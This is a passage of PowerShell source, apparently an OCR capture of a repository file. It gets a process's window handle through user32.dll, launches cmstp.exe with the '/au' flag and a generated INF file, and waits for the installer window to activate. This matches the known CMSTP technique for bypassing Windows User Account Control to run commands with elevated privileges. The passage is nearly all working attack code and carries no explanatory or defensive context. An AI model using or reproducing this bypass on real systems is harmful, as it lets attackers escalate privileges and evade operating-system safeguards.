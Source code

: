   Param
  (
    [Parameter(Mandatory = $True, ValueFromPipelineByPropertyName = $True)] [string] $Name
  )
  
  Process
  {
    $memberDefinition = @'
    [DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
    [DllImport("user32.dll", SetLastError = true)] public static extern bool SetForegroundWindow(IntPtr hWnd);
'@

    Add-Type -MemberDefinition $memberDefinition -Name Api -Namespace User32
    $hwnd = Get-Hwnd -ProcessName $Name | Select-Object -ExpandProperty Hwnd
    If ($hwnd) 
    {
      $onTop = New-Object -TypeName System.IntPtr -ArgumentList (0)
      [User32.Api]::SetForegroundWindow($hwnd)
      [User32.Api]::ShowWindow($hwnd, 5)
    }
    Else 
    {
      [string] $hwnd = 'N/A'
    }

    $hash = @{
      Process = $Name
      Hwnd    = $hwnd
    }
        
    New-Object -TypeName PsObject -Property $hash
  }
}

. Set-INFFile
#Needs Windows forms
add-type -AssemblyName System.Windows.Forms
If (Test-Path $InfFileLocation) {
#Command to run
$ps = new-object system.diagnostics.processstartinfo "c:\windows\system32\cmstp.exe"
$ps.Arguments = "/au $InfFileLocation"
$ps.UseShellExecute = $false

#Start it
[system.diagnostics.process]::Start($ps)

do
{
	# Do nothing until cmstp is an active window
}
until ((Set-WindowActive cmstp).Hwnd -ne 0)
